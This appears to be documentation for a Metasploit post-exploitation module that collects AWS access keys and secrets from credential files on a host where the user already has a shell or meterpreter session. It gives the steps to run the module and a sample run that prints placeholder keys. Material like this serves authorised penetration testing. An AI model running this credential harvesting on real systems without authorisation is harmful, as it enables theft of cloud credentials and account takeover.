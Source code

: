 ## Vulnerable Application

  Any system with a `shell` or `meterpreter` session.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/aws_keys```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable configuration files containing AWS key material, they will be printed out.

## Options

  None.

## Scenarios

  ```
msf post(aws_keys) > run

[*] Enumerating possible user AWS config files
[*] Looking for AWS config/credentials files in /bin
[*] Looking for AWS config/credentials files in /dev
[*] Looking for AWS config/credentials files in /home/syslog
[*] Looking for AWS config/credentials files in /home/test
[*] Looking for AWS config/credentials files in /home/test  ubuntu
[*] Looking for AWS config/credentials files in /home/ubuntu
[*] Looking for AWS config/credentials files in /nonexistent
[*] Looking for AWS config/credentials files in /root
[*] Looking for AWS config/credentials files in /usr/games
[*] Looking for AWS config/credentials files in /usr/sbin
[*] Looking for AWS config/credentials files in /var/backups
[*] Looking for AWS config/credentials files in /var/cache/man
[*] Looking for AWS config/credentials files in /var/cache/pollinate
[*] Looking for AWS config/credentials files in /var/lib/gnats
[*] Looking for AWS config/credentials files in /var/lib/landscape
[*] Looking for AWS config/credentials files in /var/lib/libuuid
[*] Looking for AWS config/credentials files in /var/list
[*] Looking for AWS config/credentials files in /var/mail
[*] Looking for AWS config/credentials files in /var/run/dbus
[*] Looking for AWS config/credentials files in /var/run/ircd
[*] Looking for AWS config/credentials files in /var/run/sshd
[*] Looking for AWS config/credentials files in /var/spool/lpd
[*] Looking for AWS config/credentials files in /var/spool/news
[*] Looking for AWS config/credentials files in /var/spool/uucp
[*] Looking for AWS config/credentials files in /var/www
AWS Key Data
============

Source                         AWS_ACCESS_KEY_ID  AWS_SECRET_ACCESS_KEY  Profile
------                         -----------------  ---------------------  -------
/home/test/.aws/credentials    BAR                PRIVATE_TEST           test
/home/ubuntu/.aws/credentials  ABC456             PRIVATE_TEST           test
/root/.s3cfg                   root_key           root_secret            default
```
